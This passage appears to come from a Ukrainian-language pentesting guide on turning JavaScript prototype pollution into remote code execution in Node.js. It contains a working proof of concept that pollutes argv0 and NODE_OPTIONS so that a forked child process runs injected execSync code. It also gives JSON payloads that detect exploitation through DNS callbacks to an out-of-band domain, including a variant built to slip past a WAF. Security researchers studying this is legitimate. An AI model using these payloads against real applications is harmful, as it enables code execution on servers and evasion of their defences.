 ## PP2RCE через змінні середовища + командний рядок

Схожий корисний вантаж до попереднього з деякими змінами був запропонований у [**цьому звіті**](https://blog.sonarsource.com/blitzjs-prototype-pollution/)**.** Основні відмінності:

* Замість зберігання nodejs **payload** всередині файлу `/proc/self/environ`, він зберігається **в argv0** файлу **`/proc/self/cmdline`**.
* Потім, замість вимоги через **`NODE_OPTIONS`** файлу `/proc/self/environ`, він **вимагає `/proc/self/cmdline`**.

{% code overflow="wrap" %}
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"

// Trigger gadget
var proc = fork('./a_file.js');
// This should create the file /tmp/pp2rec2


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce2\\\").toString())//"}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec
```
{% endcode %}

## DNS Interaction

Використовуючи наступні пейлоади, можливо зловживати змінною середовища NODE\_OPTIONS, про яку ми говорили раніше, і виявити, чи спрацювало це, за допомогою взаємодії з DNS:
```json
{
"__proto__": {
"argv0":"node",
"shell":"node",
"NODE_OPTIONS":"--inspect=id.oastify.com"
}
}
```
Або, щоб уникнути запитів WAF до домену:
```json
{
"__proto__": {
"argv0":"node",
"shell":"node",
"NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
}
}
```
## PP2RCE вразливість функцій child\_process
